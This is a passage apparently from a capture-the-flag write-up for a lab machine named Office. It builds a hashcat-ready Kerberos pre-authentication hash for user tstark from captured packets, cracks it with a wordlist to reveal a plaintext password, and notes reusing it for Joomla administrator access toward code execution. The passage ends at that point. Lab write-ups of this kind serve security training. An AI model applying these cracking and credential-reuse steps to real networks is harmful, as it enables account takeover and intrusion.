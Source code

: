 ![Kerberos AS-REQ package](/assets/images/Office/kerberos-as-req-package.png)

Using [this guide](https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/), we are able to build the formatted hash for hashcat to crack it and we are able to return the password:

```bash
❯ cat tstark.hash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: tstark.hash
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ $krb5pa$18$tstark$office.htb$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ hashcat -m 19900 tstark.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

<SNIP>

$krb5pa$18$tstark$office.htb$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc:playboy69
                                                          
<SNIP>
```

This credential works for the administration panel of Joomla with user Administrator, that I will use to gain access to the machine as its said [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce):
